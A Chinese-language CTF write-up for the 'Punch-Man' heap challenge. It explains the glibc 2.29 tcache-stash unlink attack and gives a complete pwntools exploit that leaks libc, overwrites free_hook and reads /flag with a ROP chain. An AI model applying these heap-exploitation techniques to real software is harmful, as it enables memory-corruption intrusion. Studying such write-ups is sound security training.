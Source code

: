 ---
title: Tache Stash Unlink Attack:Punch-Man
date: 2021-06-24 10:49:43
tags:
layout: post
----
Punch-Man & tache stash unlink attack
<!--more-->
# **prologue**

很棒的一题，主要使用了libc-2.29下利用 `small bin tache stash` tacache中有6个chunk的情况，攻击效果是类似于之前版本的 `unsorted bin attack` 往任意地址写固定值。

# **analyze**

- libc=2.29
- 保护全开+orw
- UAF
- malloc范围限制在small bin范围

UAF比较明显，很容易泄漏heapbase&libcbase,主要难在利用，因为题目用的是calloc所以不从tcache里面取，有个隐藏菜单可以malloc 0x217，但仅限于tcache满的时候。

所以在这种情况下，tcache和small bin的路已经被锁死了，需要用 `small bin`相关的利用来扩大利用。

# **tcache stash in small bin**

libc 2.29引入的新机制，可以在[这里][1]看看，和本题相关的简单来说当tcache未满时从small bin取下一个时会将剩下的chunk放入tcache，但是检查不严格。如下可以看到，没有检查bck的fd是不是victim。

```c
#if USE_TCACHE
          /* While we're here, if we see other chunks of the same size,
             stash them in the tcache.  */
          size_t tc_idx = csize2tidx (nb);
          if (tcache && tc_idx < mp_.tcache_bins)
            {
              mchunkptr tc_victim;
              /* While bin not empty and tcache not full, copy chunks over.  */
              while (tcache->counts[tc_idx] < mp_.tcache_count
                     && (tc_victim = last (bin)) != bin)
                {
                  if (tc_victim != 0)
                    {
                      bck = tc_victim->bk;//*
                      set_inuse_bit_at_offset (tc_victim, nb);
                      if (av != &main_arena)
                        set_non_main_arena (tc_victim);
                      bin->bk = bck;
                      bck->fd = bin;
                      tcache_put (tc_victim, tc_idx);
                    }
                }
            }
#endif
```

这里的利用方式有很多，本题中因为最少只能有6个chunk在tcache中（0x220），能达成的效果只有类似unsorted bin atk。

构造方式: small bin 有2个chunk，tcache有6个chunk.

构造small bin 第二个chunk的 fd不变，bk为需要写的地址-0x10。

calloc 掉一个smallbin就可以触发，往构造的地址写一个固定的值。

# **solution**

我想到的比较方便的是攻击global_max_size。

我的思路：要想获得任意地址写可以走small bin 可以走tcache，但是tcache比较简单先试试tcache；因为只能malloc一个所以要么直接控制heap开始的时候那个tcache结构体要么把计数器改成很大（这个试了一下发现因为寄存器存值所以失败了）；然后目标是tcache结构体，现有能力是任意地址写固定值，所以就自然而然地改掉global_max_size然后fast bin atk

# **EXP**

```c
from pwn import *
context.arch='amd64'
context.log_level='debug'

context.terminal=['tmux','split','-h']
def cmd(c):
    p.sendlineafter("> ",str(c))
def add(idx,size):
    cmd(1)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",size*"A")
def free(idx):
    cmd(4)
    p.sendlineafter(": ",str(idx))
def edit(idx,c):
    cmd(2)
    p.sendlineafter(": ",str(idx))
    p.sendafter(": ",c)
def show(idx):
    cmd(3)
    p.sendlineafter(": ",str(idx))
def punch(c="A"):
    cmd(0xc388)
    p.send(c)
p=process('./pwn')

for x in range(2):
    add(0,0x217)
    free(0)
show(0)
p.readuntil("name: ")
heap=u64(p.readline()[:-1]+b'\0\0')-0x260
for x in range(5): 
    add(0,0x217)
    free(0)

add(0,0x217)
add(1,0x217)
free(0)
show(0)
p.readuntil("name: ")
base=u64(p.readline()[:-1]+b'\0\0')-(0x7ffff7fbfca0-0x7ffff7ddb000)
free(1)
# clear
for x in range(7):
    add(0,0x248)
    free(0)
add(0,0x217)
add(1,0x88)
add(1,0x217)
add(2,0x88)
free(0)
free(1)
add(2,0x248)
punch()
edit(1,p64(0x2160+heap)+p64(0x7ffff7fc1600-0x7ffff7dda000+base-0x10))
add(0,0x217)
free(2)
edit(2,p64(heap))

add(2,0x248)
add(2,0x248)

free_hook=0x1e75a8+base
edit(2,'\0'*0x248)
edit(2,b'\0'*0x20+b'\7'*8+b'\0'*0xa0+p64(free_hook)*0x10)
punch(p64(0x7ffff7f2a550-0x7ffff7dda000+base))

#++++++++++++++++++++++++++++++
# Before starting this module, I 
# hope you have set free_hook
# ==> magic gadget <3 
chunk=heap+0x10
# chunk is Free's first Parameter
#+++++++++++++++++++++++++++++++
payload=p64(0)+p64(chunk)+b'\0'*0x10+p64(0x55e35+base)
libc=ELF("/lib/x86_64-linux-gnu/libc-2.29.so")
libc.address=base
rop = ROP(libc)
sys = rop.find_gadget(['syscall','ret'])[0]
rsp=chunk
rdi=0
rsi=rsp
rdx=0x110
rbp=rsi-8
rcx=sys
payload=payload.ljust(0x68,b'\0')+flat([rdi,rsi,rbp,0,rdx,0,0,rsp,rcx])
edit(2,payload)
gdb.attach(p,'b free')
free(2)

rop.read(3,chunk+0x110,0x100)
rop.write(1,chunk+0x110,0x100)
rop.dump()
pyaload_rw =rop.chain()

rax = rop.find_gadget(['pop rax','ret'])[0]
rdi = rop.find_gadget(['pop rdi','ret'])[0]
rsi = rop.find_gadget(['pop rsi','ret'])[0]
rdx = rop.find_gadget(['pop rdx','ret'])[0]
pyaload_open =flat([rax,0x2,rdi,chunk+0xf8,rsi,0,rdx,0,sys])
pay = pyaload_open+pyaload_rw
p.send(pay.ljust(0xf8,b'\0')+b'/flag\0')

p.interactive()
```

[1]: https://n132.github.io/2021/05/09/New-Check-In-Glibc-2-29.html